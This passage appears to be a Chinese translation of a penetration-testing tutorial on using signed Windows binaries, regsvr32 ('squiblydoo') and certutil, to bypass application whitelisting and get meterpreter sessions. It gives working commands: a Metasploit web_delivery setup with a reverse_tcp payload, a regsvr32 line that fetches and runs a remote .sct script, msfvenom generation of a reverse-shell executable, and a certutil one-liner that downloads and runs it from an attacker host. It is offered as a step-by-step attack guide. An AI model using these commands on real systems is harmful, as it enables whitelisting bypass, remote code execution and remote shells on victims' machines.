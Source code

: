**通过Metasploit的脚本Web交付启动Regsvr32**

该模块可以快速启动为有效负载提供服务的Web服务器。提供的命令将允许有效负载下载和执行。它将通过regsvr32.exe指定脚本语言解释器或“squiblydoo”来绕过应用程序白名单。此模块的主要目的是在攻击者必须手动输入命令时快速在目标计算机上建立会话：例如命令注入。

Regsvr32使用“squiblydoo”技术绕过应用程序白名单。签名的Microsoft二进制文件Regsvr32能够请求.sct文件，然后在其中执行包含的PowerShell命令。两个Web请求（即**.sct文件和PowerShell**下载/执行）都可以在同一端口上发生。“PSH（Binary）”会将文件写入磁盘，允许自定义二进制文件被下载/执行。

```bash
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 3
msf exploit (web_delivery)> set payload php/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvhost 192.168.1.109
msf exploit (web_delivery)>exploit
```



复制下面窗口中显示的突出显示的文本

![img](https://i1.wp.com/2.bp.blogspot.com/-p0QEInqkcx8/XERxEfHkFXI/AAAAAAAAcIM/f6J6-fwsWCMa-4fCq5uiLAHZB3gCF-9bgCLcBGAs/s1600/12.png?w=687&ssl=1)

在regsrv32.exe的帮助下，您将在远程计算机上执行scrobj.dll文件，您将在本地计算机（Kali Linux）上获得反向连接。

```bash
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xt5dIF.sct scrobj.dll
```



![img](https://i1.wp.com/3.bp.blogspot.com/-OB5nghnOldk/XERxEnRo8GI/AAAAAAAAcIU/2wefsko02AElgdWTQJZeWLjo3cYUFhBLQCLcBGAs/s1600/13.png?w=687&ssl=1)

您可以观察到，我们有受害者的计时器会话，如下所示：

![img](https://i2.wp.com/3.bp.blogspot.com/-_ix5g4_sjyQ/XERxEQYpoyI/AAAAAAAAcIQ/Xu9F9xQFugMGM0-dTZHfqbR9szpv6K3fgCLcBGAs/s1600/14.png?w=687&ssl=1)



## 四、Certutil.exe

Certutil.exe是一个命令行程序，作为证书服务的一部分安装。我们可以使用此工具在目标计算机上执行我们的恶意**exe文件**以获取meterpreter会话。

**通过Msfvenom启动certutil攻击**

使用msfvenom生成恶意可执行（.exe）文件并**启动multi / handler**以获取受害者计算机的反向shell。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
```



 **![img](https://i1.wp.com/4.bp.blogspot.com/-u4xQqtgWTyY/XERxE1CnEoI/AAAAAAAAcIY/gbDs9afuMVEdYu4CmTBD1dFAVV0X5WXWgCLcBGAs/s1600/19.png?w=687&ssl=1)**

现在，为了使用certutil转储shell.exe文件的配置信息或文件，您可以按照以下systax：

*语法：[ - f] [-urlcache] [-split]可执行文件的路径*

```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```
